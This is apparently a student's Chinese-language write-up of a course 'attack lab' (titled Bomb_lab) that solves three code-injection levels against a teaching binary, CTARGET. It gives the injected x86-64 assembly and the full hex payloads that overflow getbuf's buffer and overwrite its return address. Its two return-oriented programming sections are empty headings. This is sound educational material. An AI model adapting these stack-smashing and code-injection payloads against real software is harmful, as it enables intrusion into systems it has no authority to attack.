

# Bomb_lab

> 作者：Xiaoma
>
> 完成时间：


## 实验目的

> 
>
> 

## 环境
Ubuntu18.04 + gdb


## 实验步骤与内容

### **Code Injection Attacks - Level1**

> 要求：在不注入新代码的情况下，利用字符串重定向程序，让**CTARGET**在执行**return**语句时执行**touch1**的代码，而不是返回**test**。

test函数的C语言代码为
```C++
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

touch1函数的C语言代码为
```C++
void touch1()
{
    vlevel = 1; /*Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

反汇编`test`


反汇编`getbuf`


此时，栈中的结构为



已知`touch1`的地址为`0x4017c0`

则首先使用任意字符串，将`getbuf`分配的长度为`0x28`的栈帧填满，此时再输入字符串，返回地址将被覆盖，若输入字符串为`touch1`的地址，`getbuf`执行完以后将返回`touch1`继续执行。

**注意小端存储对应的字节顺序**

使用`hex2raw`将16进制数转换为ASCII字符，并使用参数`-q`不连接服务器

`.txt`文件中的内容

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

验证答案

```shell
./hex2raw < ./CI_level1/ci_level1.txt | ./ctarget -q
```


Code Injection Attacks - Level1完成

### **Code Injection Attacks - Level2**

> 要求：注入代码重定向程序，让**CTARGET**在执行**return**语句时执行**touch2**的代码并将**cookie**作为**touch2**的参数传入


touch2函数的C语言代码为
```C++
void touch2(unsigned val)
{
    vlevel = 2; /*Part of validation protocol */
    if(val == cookie)
    {
        printf("Touch2! : You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else
    {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

已知`touch2`函数的第一个参数在`%rdi`中，所以我们植入的代码所做的工作为：
- 执行`return`语句时使`pc`指向我们植入的代码
- 将`cookie`传入`%rdi`，已知`cookie`为`0x59b997fa`
- 跳转至`touch2`所在地址`0x4017ec`

查询执行`getbuf`时的栈顶指针


则此时栈中的结构为


需要植入的汇编指令为
```asm
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

依次对汇编代码进行汇编和反汇编
```shell
gcc -c injectCode.s
objdump -d injectCode.o > injectCode.d 
cat injectCode.d
```


代码总计10字节，故`.txt`文件中的内容

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

验证答案


Code Injection Attacks - Level2完成

### **Code Injection Attacks - Level3**
>要求：注入代码重定向程序，让**CTARGET**在执行**return**语句时执行**touch3**的代码并将字符串作为**cookie**作为**touch3**的参数传入

hexmatch函数的C语言代码为

```C++
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

touch3函数的C语言代码为

```C++
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) 
    {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } 
    else 
    {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}

```

已知`hexmatch`中，生成字符串的地址是随机的，若将表示`cookie`的字符串存储在`getbuf`的栈中，会有被覆盖的风险，所以将表示`cookie`的字符串存储在`test`的栈中。

查询`test`的栈顶指针


`touch3`的地址为`0x4018fa`


此时栈中的结构为


需要植入的汇编指令为
```asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

依次对汇编代码进行汇编和反汇编

```shell
gcc -c injectCode.s
objdump -d injectCode.o > injectCode.d 
cat injectCode.d
```


代码总计10字节，表示`cookie`的字符串为`35 39 62 39 39 37 66 61`，故.txt文件中的内容

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

验证答案


Code Injection Attacks - Level3完成

### Return-Oriented Programming - level2

### Return-Oriented Programming - level3